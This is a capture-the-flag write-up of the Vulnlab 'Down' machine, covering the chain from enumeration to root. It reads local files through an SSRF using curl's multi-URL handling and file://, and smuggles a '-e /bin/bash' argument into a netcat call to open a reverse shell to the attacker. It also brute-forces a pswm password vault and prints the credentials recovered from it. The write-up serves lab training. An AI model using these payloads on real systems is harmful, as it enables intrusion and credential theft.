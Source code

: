 # Vulnlab Machine : Down

![Alt text](Down.png)

## Enumeration
### Nmap Scan
```sh
# Nmap 7.95 scan initiated Sun Sep 21 22:11:11 2025 as: /usr/lib/nmap/nmap --privileged -sV -sC -oN nmap.txt 10.10.91.137
Nmap scan report for 10.10.91.137
Host is up (0.016s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 f6:cc:21:7c:ca:da:ed:34:fd:04:ef:e6:f9:4c:dd:f8 (ECDSA)
|_  256 fa:06:1f:f4:bf:8c:e3:b0:c8:40:21:0d:57:06:dd:11 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Is it down or just me?
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Sep 21 22:11:21 2025 -- 1 IP address (1 host up) scanned in 9.74 seconds
```
## Analysis and Exploitation
the web app  use the input url to print the source code of the page web
![Alt text](webapp.png)

As a example : `http://127.0.0.1:80/index.php`

![Alt text](example.png)

it apear that this web app is vulnerable to SSRF vulnerability , i run a lestening server and i try `http://10.8.7.122:1234/` :
![Alt text](lhost.png)

then , i notice that the webapp use `curl`
```sh
$ nc -lnvp 1234      
listening on [any] 1234 ...
connect to [10.8.7.122] from (UNKNOWN) [10.10.91.137] 42238
GET / HTTP/1.1
Host: 10.8.7.122:1234
User-Agent: curl/7.81.0
Accept: */*
```
> `curl` can takes as a arguments many `urls`

```sh
$ curl -I google.com x.com     
HTTP/1.1 301 Moved Permanently
Location: http://www.google.com/
Content-Type: text/html; charset=UTF-8
Content-Security-Policy-Report-Only: object-src 'none';base-uri 'self';script-src 'nonce-nV7JPTr7RjV_W6G-dXxDSw' 'strict-dynamic' 'report-sample' 'unsafe-eval' 'unsafe-inline' https: http:;report-uri https://csp.withgoogle.com/csp/gws/other-hp
Date: Sun, 21 Sep 2025 20:43:58 GMT
Expires: Tue, 21 Oct 2025 20:43:58 GMT
Cache-Control: public, max-age=2592000
Server: gws
Content-Length: 219
X-XSS-Protection: 0
X-Frame-Options: SAMEORIGIN

HTTP/1.1 301 Moved Permanently
Date: Sun, 21 Sep 2025 20:43:58 GMT
Content-Type: text/html
Content-Length: 167
Connection: keep-alive
Cache-Control: max-age=3600
Expires: Sun, 21 Sep 2025 21:43:58 GMT
Location: https://x.com/
Set-Cookie: __cf_bm=tkhrc.qo3UwiIliqXzwIe4smUeHiRXhPh4487YW19GQ-1758487438-1.0.1.1-kC0nYv7_xDSaRsiWEESkZ5.hODfao8K7Q9_G8WvY3WoNVy2v0XdkTYdYNQowbY7NQPm6UDR4J62bLP5zNrl2OXcnjtnf565dhbaf5Mrwg0o; path=/; expires=Sun, 21-Sep-25 21:13:58 GMT; domain=.x.com; HttpOnly
Server: cloudflare
CF-RAY: 982c65db39e30289-CDG
```
let's exploit this ,but using `file` wrapper : `url=http://10.10.91.137+file:///etc/passwd `

![Alt text](manyarg.png)

using this technique , we got the content of `index.php`: `url=http://10.10.91.137+file:///var/www/html/index.php`

```php
<?php
if ( isset($_GET['expertmode']) && $_GET['expertmode'] === 'tcp' ) {
  echo '<h1>Is the port refused, or is it just you?</h1>
        <form id="urlForm" action="index.php?expertmode=tcp" method="POST">
            <input type="text" id="url" name="ip" placeholder="Please enter an IP." required><br>
            <input type="number" id="port" name="port" placeholder="Please enter a port number." required><br>
            <button type="submit">Is it refused?</button>
        </form>';
} else {
  echo '<h1>Is that website down, or is it just you?</h1>
        <form id="urlForm" action="index.php" method="POST">
            <input type="url" id="url" name="url" placeholder="Please enter a URL." required><br>
            <button type="submit">Is it down?</button>
        </form>';
}

if ( isset($_GET['expertmode']) && $_GET['expertmode'] === 'tcp' && isset($_POST['ip']) && isset($_POST['port']) ) {
  $ip = trim($_POST['ip']);
  $valid_ip = filter_var($ip, FILTER_VALIDATE_IP);
  $port = trim($_POST['port']);
  $port_int = intval($port);
  $valid_port = filter_var($port_int, FILTER_VALIDATE_INT);
  if ( $valid_ip && $valid_port ) {
    $rc = 255; $output = '';
    $ec = escapeshellcmd("/usr/bin/nc -vz $ip $port");
    exec($ec . " 2>&1",$output,$rc);
    echo '<div class="output" id="outputSection">';
    if ( $rc === 0 ) {
      echo "<font size=+1>It is up. It's just you! 😝</font><br><br>";
      echo '<p id="outputDetails"><pre>'.htmlspecialchars(implode("\n",$output)).'</pre></p>';
    } else {
      echo "<font size=+1>It is down for everyone! 😔</font><br><br>";
      echo '<p id="outputDetails"><pre>'.htmlspecialchars(implode("\n",$output)).'</pre></p>';
    }
  } else {
    echo '<div class="output" id="outputSection">';
    echo '<font color=red size=+1>Please specify a correct IP and a port between 1 and 65535.</font>';
  }
} elseif (isset($_POST['url'])) {
  $url = trim($_POST['url']);
  if ( preg_match('|^https?://|',$url) ) {
    $rc = 255; $output = '';
    $ec = escapeshellcmd("/usr/bin/curl -s $url");
    exec($ec . " 2>&1",$output,$rc);
    echo '<div class="output" id="outputSection">';
    if ( $rc === 0 ) {
      echo "<font size=+1>It is up. It's just you! 😝</font><br><br>";
      echo '<p id="outputDetails"><pre>'.htmlspecialchars(implode("\n",$output)).'</pre></p>';
    } else {
      echo "<font size=+1>It is down for everyone! 😔</font><br><br>";
    }
  } else {
    echo '<div class="output" id="outputSection">';
    echo '<font color=red size=+1>Only protocols http or https allowed.</font>';
  }
}
?>
```
Analyzing the code, there is a hidden mode of this application `expertmode` , let's discover it:

![Alt text](expertmode.png)

`expertmode` will allow me to execute nc and get nc connection. also , there is no validation filter of `$ip` and `$port`, so let's  try to make it a reverse shell.

```yml
POST //index.php?expertmode=tcp HTTP/1.1
Host: 10.10.91.137
Content-Length: 23
Cache-Control: max-age=0
Accept-Language: en-GB,en;q=0.9
Origin: http://10.10.91.137
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.91.137//index.php?expertmode=tcp
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

ip=10.8.7.122&port=1337+-e+/bin/bash
```
we got the our re-shell, also the user flag
```sh
$ rlwrap nc -lnvp 1337
listening on [any] 1337 ...
connect to [10.8.7.122] from (UNKNOWN) [10.10.91.137] 55176
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
ls
index.php
logo.png
style.css
user_aeT1xa.txt
cat user*
VL{}
```
after many operation, i notice that we had the access to `aleks` home directory, where i found a token in `/home/aleks/.local/share/pswm`
```yml
e9laWoKiJ0OdwK05b3hG7xMD+uIBBwl/v01lBRD+pntORa6Z/Xu/TdN3aG/ksAA0Sz55/kLggw==*xHnWpIqBWc25rrHFGPzyTg==*4Nt/05WUbySGyvDgSlpoUw==*u65Jfe0ml9BFaKEviDCHBQ==
```
after small research in google , i found this tool  to [bruteforce the pswm master password and decrypt the password vault](https://github.com/seriotonctf/pswm-decryptor) :

```sh
$ python3 pswm-decrypt.py -f token.txt -w rockyou.txt
[+] Master Password: flower
[+] Decrypted Data:
+------------+----------+----------------------+
| Alias      | Username | Password             |
+------------+----------+----------------------+
| pswm       | aleks    | flower               |
| aleks@down | aleks    | 1uY3w22uc-Wr{xNHR~+E |
+------------+----------+----------------------+
```
we use those credentials to make ssh connection

```sh
$ ssh aleks@10.10.91.137         
The authenticity of host '10.10.91.137 (10.10.91.137)' can't be established.
ED25519 key fingerprint is SHA256:uq3+WwrPajXEUJC3CCuYMMlFTVM8CGYqMtGB9mI29wg.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.91.137' (ED25519) to the list of known hosts.
aleks@10.10.91.137's password: 
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-119-generic x86_64)
Last login: Sun Sep 15 09:14:52 2024 from 10.8.0.101
aleks@down:~$ 
```
## Privilege Escalation
As always the first things i check is my sudo power:

```sh
aleks@down:~$ sudo -l
[sudo] password for aleks: 
Matching Defaults entries for aleks on down:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User aleks may run the following commands on down:
    (ALL : ALL) ALL
```
ahah !! , easy one this time , we had all we need.

```sh
aleks@down:~$ sudo su
root@down:/home/aleks# cd ~
root@down:~# ls
root.txt  snap
root@down:~# 
```
We got [the root flag](https://api.vulnlab.com/api/v1/share?id=c2397a68-a8c7-41a5-8268-ce1586a95e3b)

![Alt text](rooted.png)

